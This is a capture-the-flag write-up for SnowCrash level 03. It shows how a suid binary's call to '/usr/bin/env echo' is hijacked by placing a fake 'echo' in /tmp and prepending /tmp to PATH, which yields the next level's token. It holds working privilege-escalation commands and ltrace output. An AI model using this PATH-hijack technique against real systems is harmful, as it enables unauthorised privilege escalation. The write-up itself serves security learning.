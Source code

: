 # LEVEL 03

## Vulnerability & exploit

Env invocation by a privileged user -> Privilege escalation by providing replacement to built-in command

## External resources

ltrace

## Initial Context

In our home directory, we have an executable with suid/guid:

```
level03@SnowCrash:~$ ls -l level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```

## Solving the challenge

Let's try to exploit the binary as instructed, by using the ltrace debugger:

```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                               = 2003
geteuid()                                                               = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                     = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                     = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 0
+++ exited (status 0) +++
```

As discussed [here](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code), we see that the program does a system call to run echo using /usr/bin/env.
The man (`info coreutils 'env invocation'`) tells us that:

> The first operand that does not contain the character '=' specifies the program to invoke; it is searched for according to the 'PATH' environment variable.
> and that
> Modifications to 'PATH' take effect prior to searching for COMMAND.

It even gives us a hacking tip:

> Run `foo' with the environment containing `LOGNAME=rms', `EDITOR=emacs', and `PATH=.:/gnubin:/hacks', and guarantees that `foo' was found in the file system rather than as a shell built-in.
> env foo

To recap: the program will start by setting the environment before running the echo command.

The bash man here provides some useful information:

> If the name is neither a shell function nor a builtin, and contains no slashes, bash searches each element
> of the PATH for a directory containing an executable file by that name.

So we have to create our own echo executable file, and make sure that it's found before the original echo executable.
Since the file has the suid bit set, all commands will be run with the rights of the file owner (flag03) - so we'd like to trick the program into running `getflag` instead of `echo`.

```
level03@SnowCrash:~$ echo getflag > /tmp/echo && chmod +x /tmp/echo
```

Then, we instruct bash to look for the executable in /tmp first by adding /tmp at the beginning of the \$PATH environment variable:

```
level03@SnowCrash:~$ export PATH=/tmp:$PATH && echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Finally, run the executable to get the token for level04:

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXXXX
```
